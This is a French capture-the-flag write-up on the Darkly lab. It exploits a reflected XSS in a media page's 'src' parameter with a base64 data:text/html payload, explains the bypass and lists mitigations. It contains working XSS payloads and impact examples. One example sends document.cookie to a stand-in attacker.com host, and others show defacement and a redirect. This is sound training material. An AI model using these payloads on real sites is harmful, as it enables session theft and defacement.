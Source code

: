 Exploitation XSS (Reflected XSS) sur Darkly (Paramètre src)

Objectif : Exploiter une vulnérabilité XSS dans le paramètre src de la page media 

URL cible : http://192.168.1.33/?page=media&src=<value>

Analyse initiale

    La page media utilise le paramètre src pour inclure et afficher des ressources externes via des balises HTML comme <object>.
        <object data="test"></object>

    En inspectant l'application, aucune validation ou filtrage des entrées utilisateur sur ce paramètre n'a été détectée.

    Hypothèse : il est possible d'injecter un script dans ce paramètre pour exécuter un XSS (Cross-Site Scripting).

=>Injection initiale

    Une première tentative avec un script simple dans le paramètre src :

    http://192.168.1.33/?page=media&src=<script>alert('XSS')</script>

    Résultat : La balise <script> est ignorée ou filtrée. L'attaque échoue.

=>Utilisation d’une balise <object>

    Hypothèse : la page media utilise des balises comme <object> pour afficher le contenu spécifié dans src.
    Tentative avec une balise <object> :

    <object data="javascript:alert('XSS')"></object>

    Résultat : Cette méthode échoue également car certains navigateurs ou configurations désactivent javascript: dans data.

=>>>>Injection via data:text/html

    Le schéma data:text/html permet d'injecter directement du contenu HTML ou JavaScript encodé dans une URL.

    Encodage en Base64 du payload suivant :

<script>alert('XSS')</script>

Encodé en Base64 : PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K

Construction de l'URL avec le schéma data:text/html :

http://192.168.1.33/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K

Résultat : Succès. Le flag est là!

The flag is: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac41

----------------------------------------------------------------------------
Pourquoi data:text/html fonctionne-t-il ?

    Le schéma data: permet d'insérer directement des données dans une ressource HTML ou une balise.
    Le contenu encodé en Base64 est interprété comme du HTML par la balise <object>.
    Dans ce cas, aucun filtrage ou validation n'est appliqué par l'application, permettant l'exécution du code JavaScript.

Pourquoi l'encodage Base64 ?

    L'encodage Base64 aide à contourner certains filtres ou pare-feu en masquant les caractères dangereux (<, >, ").
    Lorsqu'il est utilisé avec le schéma data:, il permet une injection discrète et directe de contenu.
----------------------------------------------------------------------------

Mesures de sécurité

    Validation des entrées :
        Rejeter toute entrée contenant des schémas non autorisés (data:, javascript:).
        Rejeter tout contenu contenant des caractères potentiellement dangereux (<, >, ", ', ;, etc.).
        Utiliser des whitelists pour autoriser uniquement des valeurs spécifiques.

    Encodage des sorties :
        Encoder toutes les données utilisateur avant de les insérer dans une page web.

    CSP (Content Security Policy) :
        Empêcher l'exécution de scripts externes ou injectés.

----------------------------------------------------
Impact des XSS

    Vol de cookies et de sessions :
        Exemple : <script>document.write('<img src="http://attacker.com?c='+document.cookie+'">');</script>
    Défacement de page :
        Exemple : <script>document.body.innerHTML="Hacked by Attacker";</script>
    Redirection :
        Exemple : <script>window.location.href="http://attacker.com";</script>